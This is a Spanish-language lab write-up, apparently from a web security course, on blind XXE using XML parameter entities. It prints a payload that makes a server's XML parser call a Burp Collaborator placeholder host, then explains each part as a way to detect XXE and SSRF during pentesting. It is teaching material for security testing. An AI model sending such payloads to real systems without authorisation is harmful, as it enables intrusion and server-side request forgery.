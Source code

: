 En esta clase continuamos con la explotación de vulnerabilidades XXE ciegas, utilizando una variante más sofisticada. En este caso, la aplicación bloquea las entidades externas tradicionales, lo que nos obliga a recurrir al uso de parameter entities, una técnica menos común pero igualmente poderosa.

El objetivo es forzar al analizador XML a realizar una solicitud externa, y para ello empleamos Burp Collaborator como canal para observar si el servidor realiza conexiones salientes. Si vemos actividad en Collaborator después de enviar nuestra carga, confirmamos la vulnerabilidad.

Este enfoque es especialmente útil en entornos donde se han implementado filtros para mitigar las XXE básicas, pero aún persisten configuraciones inseguras que pueden ser explotadas con técnicas más avanzadas.

Solucion
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> %xxe; ]>
### 🧩 Explicación de cada parte:

1. **`<!DOCTYPE stockCheck [...]>`**
    
    - Se define un `DOCTYPE` llamado `stockCheck`. El nombre no importa mucho, solo es requerido para declarar entidades DTD (Document Type Definition).
        
2. **`<!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN">`**
    
    - Se declara una **entidad externa de parámetro** llamada `%xxe`.
        
    - El valor de esta entidad es lo que devuelve la URL: `http://BURP-COLLABORATOR-SUBDOMAIN`
        
    - Esta URL pertenece a **Burp Collaborator**, una herramienta que permite detectar interacciones salientes desde servidores vulnerables.
        
3. **`%xxe;`**
    
    - Aquí se **invoca la entidad de parámetro** `%xxe`.
        
    - Cuando el parser XML trata de expandirla, hace una **solicitud HTTP a la URL especificada**.
        
    - Si el servidor realiza esa petición, el atacante (usando Burp Collaborator) lo detecta, confirmando la vulnerabilidad.
Este payload:

- Usa **entidades de parámetro** para forzar al servidor a conectarse a un servidor externo (como Burp Collaborator).
    
- Sirve para detectar si el servidor es **vulnerable a XXE + SSRF**.
    
- Es una técnica usada comúnmente en **pruebas de seguridad** (pentesting).

![Pasted image 20250730195232.png](imagenes/Pasted image 20250730195232.png)
